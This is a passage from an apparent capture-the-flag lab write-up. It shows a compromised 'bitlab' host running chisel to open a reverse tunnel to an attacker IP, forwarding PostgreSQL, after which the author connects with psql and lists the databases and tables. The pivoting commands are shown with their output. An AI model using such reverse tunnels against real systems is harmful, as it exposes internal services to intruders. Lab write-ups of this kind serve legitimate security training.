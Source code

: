 

    www-data@bitlab:/dev/shm$ ./chisel client 10.10.14.30:8000 R:5432:localhost:5432
    2019/09/08 15:56:50 client: Connecting to ws://10.10.14.30:8000
    2019/09/08 15:56:50 client: Fingerprint 87:f2:60:3d:3b:3a:af:b9:be:99:e9:e7:fd:68:33:de
    2019/09/08 15:56:50 client: Connected (Latency 43.361952ms)



I can see the connection at the server as well:



    2019/09/08 11:57:30 server: proxy#1:R:0.0.0.0:5432=>localhost:5432: Listening 



Now I'll use a local `psql` to connect:



    root@kali# psql -h 127.0.0.1 -p 5432 -U profiles                                                                                                                                                                                      
    Password for user profiles: 
    psql (11.5 (Debian 11.5-1), server 10.4 (Ubuntu 10.4-2.pgdg18.04+1))
    Type "help" for help.

    profiles=>



I can list the dbs:



    profiles=> \list
                                 List of databases
       Name    |  Owner   | Encoding | Collate | Ctype |   Access privileges   
    -----------+----------+----------+---------+-------+-----------------------
     gitlab    | postgres | UTF8     | C       | C     | =Tc/postgres         +
               |          |          |         |       | postgres=CTc/postgres+
               |          |          |         |       | gitlab=CTc/postgres
     postgres  | postgres | UTF8     | C       | C     | 
     profiles  | postgres | UTF8     | C       | C     | =Tc/postgres         +
               |          |          |         |       | postgres=CTc/postgres+
               |          |          |         |       | profiles=CTc/postgres
     template0 | postgres | UTF8     | C       | C     | =c/postgres          +
               |          |          |         |       | postgres=CTc/postgres
     template1 | postgres | UTF8     | C       | C     | =c/postgres          +
               |          |          |         |       | postgres=CTc/postgres
    (5 rows)



I can list tables in the current db, profiles:



    profiles=> \dt
              List of relations
     Schema |   Name   | Type  |  Owner   
    --------+----------+-------+----------
     public | profiles | table | profiles
    (1 row)
